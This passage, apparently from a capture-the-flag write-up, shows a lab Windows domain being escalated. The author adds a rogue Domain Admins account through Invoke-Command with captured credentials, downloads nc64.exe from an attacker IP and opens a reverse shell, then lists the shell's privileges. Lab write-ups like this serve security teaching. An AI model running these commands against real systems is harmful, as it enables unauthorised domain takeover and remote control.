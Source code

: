     SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
    

These permissions do get reset periodically, so I’ll try adding another user:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { net user 0xdf abcdABCD1234!@#$ /add /domain /Y } -ComputerName ATSSERVER -Credential $cred
    The command completed successfully.
    

(This took me many tries to get the password complexity enough and add `/Y` to
override a prompt.)

And adding it to `Domain Admins`:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { net group "Domain Admins" 0xdf /add /domain } -ComputerName ATSSERVER -Credential $cred
    Invoke-Command -ScriptBlock { net group "Domain Admins" 0xdf /add /domain } -ComputerName ATSSERVER -Credential $cred
    The command completed successfully.
    

But these users get flushed periodically as well.

Back to awallace, I’ll upload `nc64.exe` and call it:

    
    
    PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -Credential $cred -ScriptBlock { wget 10.10.14.6/nc64.exe -outfile \programdata\nc64.exe }
    PS C:\utils> Invoke-Command -ComputerName ATSSERVER -Credential $cred -ScriptBlock { \programdata\nc64.exe -e cmd 10.10.14.6 444}
    

At a listening `nc`:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 444
    Listening on 0.0.0.0 444
    Connection received on 10.10.11.145 56958
    Microsoft Windows [Version 10.0.17763.2452]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Users\awallace\Documents>whoami /priv
    
    PRIVILEGES INFORMATION
    ----------------------
    
    Privilege Name                            Description                                                        State  
    ========================================= ================================================================== =======
    SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
    SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
    SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
    SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
    SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
    SeSystemProfilePrivilege                  Profile system performance                                         Enabled
    SeSystemtimePrivilege                     Change the system time                                             Enabled
    SeProfileSingleProcessPrivilege           Profile single process                                             Enabled